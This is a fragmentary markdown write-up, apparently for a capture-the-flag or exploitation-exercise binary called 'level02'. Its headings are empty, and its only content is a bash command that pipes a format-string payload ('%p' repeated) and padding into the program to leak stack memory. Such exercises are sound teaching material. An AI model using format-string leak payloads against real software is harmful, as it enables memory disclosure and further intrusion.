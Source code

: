 ## Brief


## Exploit

## Commands

```bash
(python -c "print('%p'*27)"; python -c "print('B' + 'A'*98)") | ./level02
```